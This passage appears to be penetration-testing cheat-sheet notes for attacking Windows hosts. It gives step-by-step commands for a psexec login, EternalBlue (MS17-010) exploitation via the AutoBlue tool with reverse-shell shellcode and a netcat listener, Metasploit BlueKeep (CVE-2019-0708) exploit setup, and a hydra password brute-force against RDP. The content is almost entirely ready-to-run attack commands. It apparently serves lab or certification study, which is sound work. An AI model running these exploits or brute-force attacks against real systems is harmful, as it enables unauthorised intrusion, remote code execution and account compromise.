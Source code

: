 
```bash
psexec.py <USER>@<TARGET_IP> cmd.exe
```

```bash
## Manual Exploit - AutoBlue
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt

cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell

nc -nvlp 1234 # On attacker VM

cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin
```

#### RDP

```bash
# RDP
nmap -sV <TARGET_IP>
```

```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/rdp/rdp_scanner
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep

set RPORT <PORT>

# ! Kernel crash may be caused !
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

show targets
set target <NUMBER>
set GROOMSIZE 50
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<TARGET_IP> -s <PORT>
```
